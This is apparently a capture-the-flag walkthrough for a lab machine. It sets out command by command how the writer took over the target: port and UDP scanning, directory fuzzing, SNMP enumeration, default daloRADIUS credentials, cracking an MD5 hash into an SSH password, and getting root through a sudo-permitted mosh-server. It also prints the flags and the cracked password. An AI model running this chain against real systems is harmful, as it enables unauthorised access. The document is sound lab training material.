

Let's scan the IP address
```bash
sudo nmap -v -sV -sC 10.10.11.48
```


When going to the site we see a simple Apache page


Scanning subdomains via `wfuzz` did not bring any results
```bash
wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.10.10.11.48" http://10.10.11.48/
```
When scanning directories via `gobuster` the following directory was found `/server-status` with status `403 Forbidden`,
```bash
gobuster dir -u http://10.10.11.48/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Let's try to scan UDP ports
```bash
sudo nmap -sU 10.10.11.48
```


More open ports were found, including `SNMP`. Get hierarchical `SNMP` data from devices with `snmpwalk`
```bash
snmpwalk -v 2c -c public 10.10.11.48
```
, where:
- `-v 2c` - Specifies `SNMP` version `2c` (older, but common).
- `-c public` - Community string that functions as a password, in this case the default is `public`.


>[!info] Note
>The Simple Network Management Protocol (SNMP) is widely used to manage and monitor network devices such as routers, servers, and switches. The `snmpwalk` command queries `SNMP`-enabled devices, obtaining a variety of information.

We see that `daloradius` is mentioned. Let's try to navigate this directory



There may be other directories inside it. Let's try
```bash
ffuf -u http://10.10.11.48/daloradius/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```


`app` was found. Let's switch to it and go through it further


```bash
ffuf -u http://10.10.11.48/daloradius/app/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```


There are 3 directories: `common`, `users`, `operators`. Let's go to the page of each of them


As if the login form for `operators` is more interesting. After googling, I found the default login data for `daloRADIUS` - it's `administrator/radius`


In `Users` there is a user `svcMosh`, which has a password hash
```hash
412DD4759978ACFCC81DEAB01B382403
```


Let's crack this `MD5` hash
```bash
hashcat -m 0 svcMosh /usr/share/wordlists/rockyou.txt
```


Result:
```Password
underwaterfriends
```
Let's connect via `SSH`


<div style="page-break-after: always;"></div>

First flag
```flag
c1dbdbe705e681d3377cbb995e81de84
```
Let's check what `sudo` commands this user can run. We see that he can run `/usr/bin/mosh-server`. When this script is executed, the port `60002` and the session key `CQ/tXB74ShVVulAXAYY7MQ` are given. The server is waiting for a client to connect on this port with the specified key. To connect to `Mosh`, enter the command
```bash
MOSH_KEY=1C/28rYqT1xXjC4lqpRmQA mosh-client 127.0.0.1 60001
```


After sending the session key, we get the `root` terminal


Second flag
```flag
7a5817bb9452b7263d6a0a11353917fb
```

>**Mosh (Mobile Shell)** is a remote terminal application that uses UDP to provide reliable connections even over changing networks. This feature is especially useful for maintaining persistent shell sessions.
